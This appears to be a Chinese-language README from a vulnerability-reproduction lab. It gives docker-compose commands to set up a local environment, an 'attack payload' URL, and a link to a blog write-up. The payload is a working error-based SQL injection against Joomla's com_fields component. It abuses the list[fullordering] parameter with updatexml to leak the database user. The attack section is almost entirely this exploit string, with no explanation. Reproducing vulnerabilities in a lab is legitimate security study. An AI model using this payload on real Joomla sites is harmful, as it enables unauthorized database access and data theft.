

## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 攻击PAYLOAD
```
http://127.0.0.1:8002/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)
```




## 漏洞连接
[链接一](http://www.cnblogs.com/yangxiaodi/p/6874314.html)

